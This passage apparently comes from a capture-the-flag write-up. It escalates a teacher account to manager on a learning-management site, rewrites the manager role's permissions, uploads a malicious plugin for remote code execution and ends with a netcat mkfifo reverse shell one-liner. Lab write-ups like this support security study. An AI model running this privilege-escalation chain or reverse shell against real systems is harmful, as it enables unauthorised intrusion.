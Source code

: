 <mg src="https://imgur.com/7flUfLy.png"/>

We can see that this user's id is 24 so we edit the request by enrolling the teaacher him self in the course and making him the `manager` by assigning role to `1`

<img src="https://imgur.com/IDpRNRp.png"/>

<img src="https://imgur.com/BARnBJg.png"/>

Now click on the other account who also has become manager and click on login as

<img src="https://imgur.com/k74nfVB.png"/>

At the bottom you'll see `Site Administration`

<img src="https://imgur.com/TJvdFX4.png"/>

There's a problem we can't upload any vulnerable plugin so we would need to modify manager role's permissions , go to `users` --> `define role` then click on edit `manager role` and go to bottom intercept `save changes` request


<img src="https://imgur.com/2aPJat3.png"/>

You'll see this , send it to `repeater tab`

<img src="https://imgur.com/jTFg21v.png"/>

Replace this all with the permissions seen on PoC 's repository

<img src="https://imgur.com/iKWraM4.png"/>

Now we can upload plugin

<img src="https://imgur.com/SHLxeo6.png"/>

Click on install

<img src="https://imgur.com/b0L53J1.png"/>

<img src="https://imgur.com/N06xr45.png"/>

You'll see this screen , don't click on continue instead trigger the remote code execution

<img src="https://imgur.com/TOuIjwh.png"/>

<img src="https://imgur.com/3BLTGmP.png"/>

Now to get a reverse shell I tried the netcat ,bash ones but they didn't worked as this was a Free BSD box so this one worked

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc <ip> <port> > /tmp/f
```

<img src="https://imgur.com/uxwz1un.png"/>
